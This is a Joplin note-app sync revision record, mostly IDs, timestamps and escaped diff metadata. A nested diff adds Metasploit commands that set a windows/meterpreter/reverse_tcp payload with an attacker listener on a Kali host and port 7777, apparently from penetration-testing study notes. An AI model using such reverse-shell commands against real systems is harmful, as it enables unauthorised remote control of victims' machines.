 id: faec6f55fee34f1c96856c4c9786f668
parent_id: 
item_type: 1
item_id: c9651a87c554433fafa528cd4b3f7545
item_updated_time: 1646016692465
title_diff: "[{\"diffs\":[[1,\"0ee95f3d41704aae9652e57ba9a7373b\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 0ee95f3d41704aae9652e57ba9a7373b\\\r\\\nparent_id: cb857db90ea24a2a819a2eae1f56117b\\\r\\\nitem_type: 1\\\r\\\nitem_id: f1cbbe07c0c44adb91ce6010b852b46f\\\r\\\nitem_updated_time: 1642645742545\\\r\\\ntitle_diff: \\\"[]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\" options\\\\\\\"],[1,\\\\\\\"\\\\\\\\\\\\\n\\\\\\\\\\\\\n> set payload windows/meterpreter/reverse_tcp\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> set LPORT 7777\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> set LHOST &lt;Kali IP&gt;\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> exploit\\\\\\\"]],\\\\\\\"start1\\\\\\\":769,\\\\\\\"start2\\\\\\\":769,\\\\\\\"length1\\\\\\\":8,\\\\\\\"length2\\\\\\\":119}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-20T02:37:11.392Z\\\r\\\ncreated_time: 2022-01-20T02:37:11.392Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":621}]"
metadata_diff: {"new":{"id":"c9651a87c554433fafa528cd4b3f7545","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016692457,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.583Z
created_time: 2022-02-28T02:54:21.583Z
type_: 13